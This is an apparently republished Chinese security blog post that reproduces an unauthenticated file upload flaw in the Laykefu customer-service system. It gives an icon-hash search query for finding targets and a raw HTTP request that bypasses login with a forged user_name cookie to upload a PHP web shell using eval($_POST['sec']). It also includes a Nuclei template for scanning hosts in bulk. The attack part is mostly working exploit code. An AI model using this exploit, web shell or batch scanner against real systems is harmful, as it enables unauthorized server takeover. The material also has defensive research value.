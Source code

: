 #  Laykefu客服系统任意文件上传漏洞复现(附POC)   
 AI与网安   2024-03-07 07:01  
  
![](https://mmbiz.qpic.cn/mmbiz_png/dMkBHvNs4ZelnIibDiaFwmQxEkzPTeSovoiaaOgyKCCiaCQIdmlskwOx7AFF1wmxW2B3u95Xw6Muy0VFia0h0vX5QlA/640 "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/EGDswCzPiapLhSKLRibPAiacIHvjzchkNYicRwf2yc19f6s6kRcYG1fN6R71Gmh9u1Y8E2BL3m91WNWZeVmQyRXn2g/640 "")  
  
part.01  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1BUAIdQuefEkfZDRX2QVjqheqhMYibApcN5QrdiagJUUWZuVdQ7mNribPeoo1nmlQ1Y1LXLicicl13X3QNCh7yawnEw/640 "")  
  
漏洞简介  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bfCPUAdmqXt9azsVkkRy7Cxeu2lghcl7kOzgbXqxg8kvYRqYg8PooGYj5qv8k7FYV4q6Wud7z8dlJjHtLPlrpQ/640 "")  
  
  
  
    Laykefu客服系统  
/admin/users/upavatar.html接口处存在文件上传漏洞，而且当请求中Cookie中的”user_name“不为空时即可绕过登录系统后台，未经身份验证的攻击者可利用此问题，上传后门文件，获取服务器权限。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/EGDswCzPiapLhSKLRibPAiacIHvjzchkNYicRwf2yc19f6s6kRcYG1fN6R71Gmh9u1Y8E2BL3m91WNWZeVmQyRXn2g/640 "")  
  
part.02  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1BUAIdQuefEkfZDRX2QVjqheqhMYibApcN5QrdiagJUUWZuVdQ7mNribPeoo1nmlQ1Y1LXLicicl13X3QNCh7yawnEw/640 "")  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bfCPUAdmqXt9azsVkkRy7Cxeu2lghcl7kOzgbXqxg8kvYRqYg8PooGYj5qv8k7FYV4q6Wud7z8dlJjHtLPlrpQ/640 "")  
  
  
  
  
  
  
  
  
步骤一：使用以下搜索语法获取测试资产并确定测试目标~~~  
```
# 搜索语法
icon_hash="-334624619"

```  
  
  
步骤二：开启代理抓取数据包并修改进行文件上传测试，Success!  
```
POST /admin/users/upavatar.html HTTP/1.1
Host: 127.0.0.1
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36 Edg/107.0.1418.26
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3OCVBiwBVsNuB2kR
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: user_name=1; user_id=3
Connection: close
 
------WebKitFormBoundary3OCVBiwBVsNuB2kR
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/png
 
<?php phpinfo();@eval($_POST['sec']);?>
------WebKitFormBoundary3OCVBiwBVsNuB2kR--
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/dMkBHvNs4ZelnIibDiaFwmQxEkzPTeSovogI1raXYAbbddKJHZB355sP4TK6zs8sNxx7NeGe9hW8yxz9BBztRXPA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/EGDswCzPiapLhSKLRibPAiacIHvjzchkNYicRwf2yc19f6s6kRcYG1fN6R71Gmh9u1Y8E2BL3m91WNWZeVmQyRXn2g/640 "")  
  
part.03  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1BUAIdQuefEkfZDRX2QVjqheqhMYibApcN5QrdiagJUUWZuVdQ7mNribPeoo1nmlQ1Y1LXLicicl13X3QNCh7yawnEw/640 "")  
  
批量脚本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bfCPUAdmqXt9azsVkkRy7Cxeu2lghcl7kOzgbXqxg8kvYRqYg8PooGYj5qv8k7FYV4q6Wud7z8dlJjHtLPlrpQ/640 "")  
  
```
id: Laykefu-Upload

info:
  name: Laykefu-Upload
  author: lanyue
  severity: high
  description: Laykefu-Upload-GetShell
  reference:
  - https://github.com/
  - https://cve.mitre.org/
  metadata:
    max-request: 1
    shodan-query: ""
    verified: true

http:
- method: POST
  path:
  - '{{RootURL}}/admin/users/upavatar.html'
  headers:
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3OCVBiwBVsNuB2kR
    Cookie: user_name=1; user_id=3
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML,
      like Gecko) Chrome/107.0.0.0 Safari/537.36 Edg/107.0.1418.26
    X-Requested-With: XMLHttpRequest
  body: "------WebKitFormBoundary3OCVBiwBVsNuB2kR\r\nContent-Disposition: form-data;
    name=\"file\"; filename=\"1.php\"\r\nContent-Type: image/png\r\n \r\n<?php phpinfo();?>\r\n------WebKitFormBoundary3OCVBiwBVsNuB2kR--"

  max-redirects: 3
  matchers-condition: and
  matchers:
  - type: regex
    part: body
    regex:
    - .{30,}.php

  - type: status
    part: body
    status:
    - "200"
```  
  
  
  
